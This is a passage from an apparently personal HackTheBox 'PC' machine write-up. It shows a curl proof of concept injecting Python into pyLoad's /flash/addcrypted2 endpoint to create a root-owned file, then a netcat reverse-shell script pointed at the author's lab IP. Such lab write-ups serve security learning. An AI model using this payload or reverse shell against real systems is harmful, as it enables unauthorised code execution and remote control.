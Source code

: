 **Testing**  
```
┌──(matt㉿HackTheBoxKali)-[~/Pc]
└─$ curl -i -s -k -X $'POST' \                                                                                                                                                                                                           6 ⨯
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Tue, 13 Jun 2023 01:30:46 GMT
Server: Cheroot/8.6.0

Could not decrypt key
```
Testing the proof of concept exploit, if successuful we will see an empty file named 'pwnd' with root permissions created in the '/tmp' directory on the target.  

```
sau@pc:~$ ls -la /tmp
total 60
drwxrwxrwt 15 root root 4096 Jun 13 01:30 .
drwxr-xr-x 21 root root 4096 Apr 27 15:23 ..
drwxrwxrwt  2 root root 4096 Jun 13 00:45 .ICE-unix
drwxrwxrwt  2 root root 4096 Jun 13 00:45 .Test-unix
drwxrwxrwt  2 root root 4096 Jun 13 00:45 .X11-unix
drwxrwxrwt  2 root root 4096 Jun 13 00:45 .XIM-unix
drwxrwxrwt  2 root root 4096 Jun 13 00:45 .font-unix
-rw-r--r--  1 root root    0 Jun 13 01:30 pwnd
drwxr-xr-x  4 root root 4096 Jun 13 00:45 pyLoad
....
SNIP
....
```
As you can see the file named 'pwnd' was successuflly created in the '/tmp' directory on the target.  

**Reverse Shell**  
```
┌──(matt㉿HackTheBoxKali)-[~/Pc]
└─$ vim rev.sh
```
Using Vim I will create a file containing a reverse shell.  

```
#!/bin/bash

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4242 >/tmp/f
```
The reverse shell from [*Payloads All The Things*](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-busybox) with my HackTheBox VPN IP address and chosen port.  


[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB PC Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 16/06/2023 - 08:19 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)